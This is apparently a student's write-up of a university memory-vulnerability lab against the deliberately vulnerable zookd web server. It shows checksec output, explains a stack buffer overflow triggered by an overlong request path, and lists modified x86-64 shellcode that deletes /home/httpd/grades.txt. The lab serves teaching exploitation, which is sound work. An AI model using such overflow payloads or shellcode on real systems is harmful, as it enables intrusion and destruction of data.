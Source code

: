 The binary details for `zookd-exstack` were also obtained as follows, to ensure that no protection was placed to conduct this attack:
```bash
httpd@istd:~/labs/lab1_mem_vulnerabilities$ pwn checksec zookd-exstack
[*] '/home/httpd/labs/lab1_mem_vulnerabilities/zookd-exstack'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments

```

The idea is to overwrite the return address of `process_client`, hence returning to an invalid address entirely and cause a segmentation fault due to inaccessible memory. In this case, we need not have a surgical setup, since as long as we overwrote the return address, we are pretty much set for a fault. No encoding is also required, since we are simply providing a payload with url `/a....*5000`

Thus, for this part, we simply provided a `request path` that exceeds the 4096 bytes, along with a few more bytes as safety. In our initial testing, 5000 bytes was sufficient to do the trick. We made additonal changes to the exploit to use 4128 bytes instead. This will be explained in detail in part B. 

## Part B

### Exercise 3.1
With the provided shellcode.S, the following changes have been modified to evoke `$SYS_unlink` on `"/home/httpd/grades.txt"`. Note that `STRLEN` has also been updated to `22`, accounting for the length of the string.


`shellcode.S`

```c=
#include <sys/syscall.h>

#define STRING	"/home/httpd/grades.txt"
#define STRLEN	22
#define ARGV	(STRLEN+1)
#define ENVP	(ARGV+8)

.globl main
	.type	main, @function

 main:
	jmp	calladdr

 popladdr:
	popq	%rcx
	movq	%rcx,(ARGV)(%rcx)	/* set up argv pointer to pathname */
	xorq	%rax,%rax		/* get a 64-bit zero value */
	movb	%al,(STRLEN)(%rcx)	/* null-terminate our string */
	movq	%rax,(ENVP)(%rcx)	/* set up null envp */

	movb	$SYS_unlink,%al		/* set up the syscall number */
	movq	%rcx,%rdi		/* syscall arg 1: string pathname */
	leaq	ARGV(%rcx),%rsi		/* syscall arg 2: argv */
	leaq	ENVP(%rcx),%rdx		/* syscall arg 3: envp */
	syscall				/* invoke syscall */

	movb    $SYS_exit,%al		/* set up the syscall number */
	xorq	%rdi,%rdi		/* syscall arg 1: 0 */
	syscall				/* invoke syscall */

```